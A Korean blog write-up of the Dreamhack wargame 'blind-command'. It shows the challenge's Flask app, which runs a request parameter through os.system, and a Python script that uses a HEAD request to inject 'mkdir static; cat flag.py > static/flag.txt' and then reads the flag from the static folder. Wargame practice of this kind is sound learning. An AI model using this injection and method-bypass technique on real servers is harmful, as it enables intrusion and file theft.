```yaml
---
layout : single
title : "STAGE10. Web Hacking Epilogue"
categories: Security
tag: [dreamhack, webhacking, wargame]
sidebar:
    nav: "docs"
---
```


# Web Hacking - Web Hacking Epilogue

-  [x] wargame : blind-command

## Wargame : blind-command

blind command injection은 시스템 명령의 수행 결과 값을 알 수 없을 때 사용하는 방법이다. 아래 코드는 문제 파일의 app.py인데, 메소드가 GET이 아닐 경우 cmd 파라미터로 전달된 값을 시스템 명령어로 실행시킨다. 

```python
from flask import Flask, request
import os

app = Flask(__name__)

@app.route('/' , methods=['GET'])
def index():
    cmd = request.args.get('cmd', '')
    if not cmd:
        return "?cmd=[cmd]"

    if request.method == 'GET':
        ''
    else:
        os.system(cmd)
    return cmd

app.run(host='0.0.0.0', port=8000)
```

### 풀이 1

1) httpie를 통해 해당 서버에 OPTIONS 메소드로 요청을 보냄

아래 결과와 같이, HEAD, GET, OPTIONS 세 가지 메소드를 사용할 수 있다는 것을 확인할 수 있다

<img src = "/images/wargame/20.png"><br>

2) HEAD 메소드로 우회하여 시도

하였으나 장렬히 실패함. 구글링 결과 burp suite를 사용해서 하는 방법만 나오는데 난 아직 burp suite를 깔지 않았으므로 (+귀찮으므로) 다른 방법을 찾았다 <br>

\*사실 내가 httpie를 잘 다룰줄 아는 것은 아니라 httpie를 다루는 데에서 문제가 발생한 것인 지, httpie로는 불가능한 작업인 것인 지 모르겠다. httpie 연습 많이 할 것 ( + 일정 레벨 이상의 워게임 문제들을 원활하게 해결해나가기 위해서는 burp suite가 필수적이라고 느껴지긴 한다)

### 풀이 2

static이라는 폴더와 flag.txt 파일을 생성하고 flag.py의 내용을 읽어 저장하면 어떨까 싶어 현재 주소에서 flag.py를 cat 한 후, static/flag.txt에 저장하도록 코드를 작성하였다.

```python
import requests

host = "http://host3.dreamhack.games:21943/"
params = {'cmd':'mkdir static; cat flag.py > static/flag.txt'}

req = requests.head(host, params=params)
```

위 코드를 실행 후 /static/flag.txt 로 접근한 결과, 아래와 같이 flag를 얻을 수 있었다

<img src = "/images/wargame/21.png">